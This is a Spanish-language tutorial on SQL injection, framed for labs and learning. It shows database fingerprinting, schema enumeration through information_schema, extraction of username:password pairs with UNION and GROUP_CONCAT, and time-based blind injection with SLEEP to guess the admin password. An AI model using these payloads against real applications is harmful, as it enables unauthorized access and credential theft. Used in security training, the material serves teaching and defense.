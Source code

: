 > A continuación hay ejemplos conceptuales pensados para laboratorios y aprendizaje. Adapta los payloads para que la salida resultante se muestre en la aplicación (p.ej. inyectando en columnas que la página renderiza o usando `UNION`).

### 1) Obtener la versión (fingerprint)

* **MySQL / PostgreSQL / SQLite:** `SELECT version();`
* **SQL Server:** `SELECT @@version;`
* **Oracle:** `SELECT * FROM v$version;`

Mostrar la cadena de versión en la página permite confirmar el motor.

### 2) Listar tablas usando `information_schema`

```sql
SELECT table_schema, table_name
FROM information_schema.tables
WHERE table_type='BASE TABLE'
ORDER BY table_schema, table_name;
```

Si la página renderiza resultados tabulares, puedes usar `UNION SELECT` para insertar el resultado en la respuesta visible.

### 3) Enumerar columnas de `users`

```sql
SELECT column_name, data_type FROM information_schema.columns WHERE table_name='users';
```

### 4) Exfiltrar datos: `UNION` y `GROUP_CONCAT` (concepto)

* En MySQL, `GROUP_CONCAT` agrupa filas en una sola cadena; útil cuando la app muestra un único campo.
* En PostgreSQL existe `string_agg()` para similar propósito.

Ejemplo conceptual (MySQL):

```sql
-- obtener username:password concatenados
SELECT GROUP_CONCAT(CONCAT(username,':',password) SEPARATOR ',') FROM users;
```

En otros SGBD se usan funciones equivalentes o concatenación con `||`.

### 5) Inyección ciega (time-based) para motores que soportan `SLEEP` o `pg_sleep`

* MySQL: `SLEEP(n)`
* PostgreSQL: `pg_sleep(n)`
* SQL Server: `WAITFOR DELAY '00:00:05'`

Ejemplo conceptual para comprobar si primer carácter del password de `admin` es `a` (MySQL):

```sql
-- IF(CONDITION, SLEEP(5), 0) -> provoca retraso si se cumple
SELECT IF(SUBSTRING((SELECT password FROM users WHERE username='admin' LIMIT 1),1,1)='a', SLEEP(5), 0);
```

